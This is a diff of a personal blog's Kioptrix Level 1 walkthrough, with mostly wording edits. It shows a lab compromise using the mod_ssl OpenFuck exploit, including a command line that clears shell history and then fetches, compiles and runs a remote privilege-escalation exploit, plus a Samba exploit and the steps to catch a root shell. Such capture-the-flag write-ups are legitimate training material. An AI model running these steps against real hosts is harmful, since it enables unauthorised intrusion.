

Before and after one commit to holstrater/holstrater.github.io, a Jekyll site: the page built from _posts/2020-04-27-kioptrix1.md, in a window 1280 px wide and 1400 px high, scrolled down 6394 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
kioptrix1 final checks

````diff
--- a/_posts/2020-04-27-kioptrix1.md
+++ b/_posts/2020-04-27-kioptrix1.md
@@ -25,7 +25,7 @@ Currently scanning: 192.168.95.0/16   |   Screen View: Unique Hosts
  192.168.56.107  08:00:27:8b:37:f3      1      60  PCS Systemtechnik GmbH
 ```
 
-I then ran an nmap scan against the target's IP address 192.168.56.107 to find out more about the target. I used the `-sS`, `-A`, `-n` and `-oA` options because in my opinion these serve a good general purpose with relatively quick but useful results. I saved the output in a file because I don’t like to do multiple scans unless I absolutely have to (such as when I need different `nmap` options to fit a very specific purpose).
+I then ran an `nmap` scan against the target's IP address `192.168.56.107` to find out more about the target. I used the `-sS`, `-A`, `-n` and `-oA` options because in my opinion these serve a good general purpose while remaining accurate. I saved the output to a file so I can go back to it later instead of having to do multiple scans (costing time).
 
 ```bash
 kali@kali:~$ sudo nmap -sS -A -n -oA kioptrix1 192.168.56.107
@@ -89,7 +89,7 @@ The first two things that grabbed my attention here were port 80 and 443. Web se
 kali@kali:~$ searchsploit apache mod_ssl
 ```
 
-So there’s a remote buffer overflow exploit available, let's give that a try. Compiling it doesn’t go as smoothly, though:
+It turned out that there was a remote buffer overflow exploit available so I gave that a try. Compiling it didn't go as smoothly, though:
 
 ```bash
 kali@kali:~$ gcc 47080.c -lcrypto
@@ -142,14 +142,16 @@ bash: ./exploit: No such file or directory
 bash-2.05$
 ```
 
-This results in a shell, but with lower privileges than intended. Because this particular exploit is supposed to result in a shell with root privileges, something went wrong. As can be seen in the error message shown above after running the exploit, the following commands failed:
+This resulted in a shell, but with lower privileges than intended. Because this particular exploit is supposed to result in a shell with root privileges, something went wrong. As can be seen in the error message shown above after running the exploit, the following commands failed:
 
-`#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; \n"`
+```c
+#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; \n"
+```
 
-This is because for safety reasons, I run the target's machine on a host-only network adapter. This means the `wget` command will fail as no connection to the internet can be made. A quick workaround for this is to `wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c` on my Kali Linux machine first and then edit the exploit so that it lets the target download the file from my Kali Linux machine instead of from the original source.
+This was because for safety reasons, I ran the target's machine on a host-only network adapter. This meant the `wget` command would fail as no connection to the internet could be made. A quick workaround for this was to `wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c` on my Kali Linux machine first and then edit the exploit so that it lets the target download the file from my Kali Linux machine instead of from the original source.
 
 
-On Kali:
+In a first Terminal tab on Kali Linux:
 
 ```bash
 kali@kali:~$ wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
@@ -157,7 +159,7 @@ kali@kali:~$ nano ptrace-kmod.c
 kali@kali:~$ python -m SimpleHTTPServer 7777
 ```
 
-In a second Terminal tab on Kali:
+In a second Terminal tab on Kali Linux (catching the root shell, giving me full access to the target):
 
 ```bash
 kali@kali:~$ ./a.out 0x6b 192.168.56.107 443 -c 40
@@ -202,11 +204,11 @@ root
 
 ## A second approach
 
-Another interesting point of entry here is the SMB service running on the target. I tried enumerating the SMB version with `enum4linux`, but apparently this command no longer shows version info. After a lot of Googling, I found [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) which is supposed to enumerate the exact version.
+Another interesting point of entry here was the `SMB` service running on the target. I tried enumerating the `SMB` version with `enum4linux`, but apparently this command no longer shows version info. After a lot of Googling, I found [smbver.sh](https://github.com/rewardone/OSCPRepo/blob/master/scripts/recon_enum/smbver.sh) which is supposed to enumerate the exact version.
 
-According to the source code of this script (which luckily wasn’t hard to read at all), this script relies on doing a packet capture of an SMB connection request. After doing some research, this method seemed to be the most reliable alternative to enum4linux. In that case, why not do what the script does myself?
+According to the source code of this script (which luckily wasn’t hard to read at all), this script relies on doing a packet capture of an `SMB` connection request. After doing some research, this method seemed to be the most reliable alternative to `enum4linux`. In that case, why not do what the script does myself?
 
-I set up a packet capture using `Wireshark` first and then tried to connect with the target’s SMB service in one tab (‘KIOPTRIX' can be found as the netbios name in the `nmap` output):
+I set up a packet capture using `Wireshark` first and then tried to connect to the target’s `SMB` service in one tab (`KIOPTRIX` can be found as the `netbios` name in the `nmap` output):
 
 ```bash
 kali@kali:~$ smbclient //192.168.56.107/KIOPTRIX
@@ -214,7 +216,7 @@ kali@kali:~$ smbclient //192.168.56.107/KIOPTRIX
 protocol negotiation failed: NT_STATUS_IO_TIMEOUT
 ```
 
-That error is definitely not supposed to be there (also indicated by the lack of useful information in the packet capture). After some googling, I found out this can be fixed by editing the `smb.config` file (`/etc/samba/smb.conf`) and adding the following line in the ‘global' section:
+That error is definitely not supposed to be there (also indicated by the lack of useful information in the packet capture). After some googling, I found out this can be fixed by editing the `smb.config` file (`/etc/samba/smb.conf`) and adding the following line in the `global` section:
 
 `client min protocol = NT1`
 
@@ -229,7 +231,7 @@ Enter WORKGROUP\kali's password:
 
 ![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix1_wireshark.png)
 
-So the version is 2.2.1a. A few exploits can be found for that, I chose [this one](https://www.exploit-db.com/exploits/10).
+So the version was 2.2.1a. A few exploits can be found for that, I chose [this one](https://www.exploit-db.com/exploits/10).
 
 After compiling the exploit and running it, the following usage instructions are shown:
 
@@ -272,4 +274,4 @@ root
 
 ## Lessons learned
 
-I gained full access to the target machine through two separate entry points, the SMB service and the mod_ssl module running on the Apache web server. Both of these entries relied on outdated versions running on the target’s machine. This can be easily prevented by regularly performing updates.
+I gained full access to the target machine through two separate entry points, the `SMB` service and the `mod_ssl` module running on the Apache web server. Both of these entries relied on outdated versions running on the target’s machine. This can be easily prevented by regularly performing updates.
````
Also changed, not shown: other parts of _posts/2020-04-27-kioptrix1.md (+3 -3 lines).
